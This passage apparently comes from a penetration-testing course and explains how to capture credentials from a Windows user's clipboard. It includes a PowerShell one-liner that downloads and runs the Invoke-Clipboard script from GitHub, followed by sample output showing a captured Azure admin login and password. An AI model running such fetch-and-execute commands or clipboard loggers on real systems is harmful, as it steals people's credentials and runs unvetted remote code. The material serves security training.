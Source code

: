 # keylogging

## Clipboard

In many companies, network administrators use password managers to 
store their credentials and copy and paste passwords into login forms. 
As this doesn't involve `typing` the passwords, keystroke logging is not effective in this case. The `clipboard`
 provides access to a significant amount of information, such as the 
pasting of credentials and 2FA soft tokens, as well as the possibility 
to interact directly with the RDP session clipboard.

We can use the [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) script to extract user clipboard data. Start the logger by issuing the command below.

### Monitor the Clipboard with PowerShell

Pillaging

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger

```

The script will start to monitor for entries in the clipboard and 
present them in the PowerShell session. We need to be patient and wait 
until we capture sensitive information.

### Capture Credentials from the Clipboard with Invoke-ClipboardLogger

Pillaging

```powershell
PS C:\htb> Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```